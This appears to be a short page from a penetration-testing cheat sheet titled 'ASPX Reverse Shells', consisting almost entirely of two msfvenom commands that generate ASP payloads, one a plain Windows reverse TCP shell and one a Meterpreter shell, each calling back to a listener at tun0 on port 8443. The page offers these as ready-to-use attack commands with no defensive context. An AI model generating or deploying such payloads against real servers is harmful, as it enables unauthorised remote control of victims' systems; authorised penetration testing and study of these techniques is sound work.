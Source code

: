 ```yaml
---
title: ASPX Reverse Shells
layout: default
nav_order: 1
parent: Reverse Shells

---
```


# ASPX Reverse Shells
{: .no_toc }
## Table of Contents
{: .no_toc .text-delta }
1. TOC
{:toc}

### Non-meterpreter shell

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=tun0 LPORT=8443 -f asp > shell.asp
```

### Meterpreter shell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=8443 -f asp > shell.asp
```

